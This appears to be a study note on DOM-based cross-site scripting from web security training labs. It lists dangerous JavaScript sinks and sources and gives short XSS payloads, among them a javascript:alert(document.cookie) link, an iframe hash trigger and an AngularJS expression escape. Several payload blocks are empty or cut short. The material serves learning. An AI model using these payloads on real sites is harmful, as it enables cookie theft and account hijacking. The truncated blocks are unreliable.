

___

```txt
document.write()
window.location
document.cookie
eval()
document.domain
WebSocket()
element.src
postMessage()
setRequestHeader()
FileReader.readAsText()
ExecuteSql()
sessionStorage.setItem()
document.evaluate()
JSON.parse
ng-app
URLSearchParams
replace()
innerHTML
location.search
addEventListener
sanitizeKey()
```

It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL.

```html
#">
```

It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`.

```html

```

It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`

```html
?returnPath=javascript:alert(document.cookie)
```



It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

```html
`#`
```

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src += ''"></iframe>
```

AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces.

```js
{{$on.constructor('alert(1)')()}}
```
